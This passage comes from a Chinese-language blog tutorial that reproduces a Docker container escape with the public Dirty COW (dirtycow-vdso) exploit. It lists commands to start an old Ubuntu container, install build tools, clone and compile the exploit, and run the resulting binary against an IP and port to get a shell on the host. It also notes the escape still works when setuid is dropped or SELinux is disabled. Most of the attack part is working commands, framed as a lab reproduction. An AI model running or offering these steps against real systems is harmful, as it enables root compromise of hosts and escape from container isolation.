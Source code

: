 ```text
docker run -itd ubuntu:14.04 /bin/bash
```

4、然后我们使用docker ps查看到该容器CONTAINER ID信息，接下来就使用docker attach进入该容器

```text
docker attach CONTAINER ID
```

![](http://ksowo.com/images/blog/docker/2.png)

5、安装编译软件，下载exp

```text
apt-get install -y build-essential
apt-get install -y nasm
apt-get install -y git
git clone https://github.com/scumjr/dirtycow-vdso
make
ifconfig
```

make完后在目录多出一个0xdeadbeef,执行命令：  
./0xdeadbeef docker的IP:端口

![](http://ksowo.com/images/blog/docker/3.png)

等一会然后发现终端没输出了，在里面输入命令会有回显

![](http://ksowo.com/images/blog/docker/4.png)

对比IP地址，上图为宿主，下图为docker容器

![](http://ksowo.com/images/blog/docker/5.png)

6、提权原理可以看  
[https://bbs.pediy.com/thread-220057.htm](https://bbs.pediy.com/thread-220057.htm)  
[https://blog.csdn.net/enjoy5512/article/details/53196047](https://blog.csdn.net/enjoy5512/article/details/53196047)

7、用下面2中方式启动容器依然可以

```c
docker run --cap-drop setuid -itd zangniu:1 /bin/bash
docker --selinux-enabled=false run -itd zangniu:1 /bin/bash
```



